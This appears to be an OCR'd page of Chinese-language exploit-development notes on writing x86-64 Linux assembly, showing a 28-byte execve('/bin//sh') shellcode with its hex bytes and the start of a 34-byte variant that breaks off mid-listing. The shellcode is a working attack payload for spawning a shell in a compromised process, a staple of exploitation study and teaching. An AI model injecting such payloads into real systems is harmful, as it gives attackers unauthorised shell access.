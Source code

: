### 3.编写汇编代码

#### 黄

##### 1.28 bytes

```
global _start
section .text

_start:
	xor rcx, rcx  ;rcx=0
	mul rcx		   ;rax=0

	add al, 0x3b     ; rax=59
	mov rbx, 0x68732f2f6e69622f ; hs//nib/

; Argument one shell[0] = "/bin//sh"
	push rdx     ; null
	push rbx     ; hs//nib/

; We need pointers for execve()
	push rsp     ; *pointer to shell[0]
	pop rdi      ; Argument 1

; Argument two shell (including address of each argument in array)
	push rdx     ; null
	push rdi     ; address of shell[0]

; We need pointers for execve()
	push rsp     ; address of char * shell
	pop rsi      ; Argument 2

	syscall
```

```
"\x48\x31\xc9\x48\xf7\xe1\x04\x3b\x48\xbb"
"\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53"
"\x54\x5f\x52\x57\x54\x5e\x0f\x05" 
```

##### 2.  34bytes

```
global _start
section .text

_start:
xor rcx, rcx
mul rcx      ;rax=0

call do

add al, 0x3b     ; execve()
mov rbx, 0x68732f2f6e69622f ; hs//nib/

; Argument one shell[0] = "/bin//sh"
push rdx     ; null
push rbx     ; hs//nib/

; We need pointers for execve()
push rsp     ; *pointer to shell[0]
pop rdi      ; Argument 1

; Argument two shell (including address of each argument in array)
```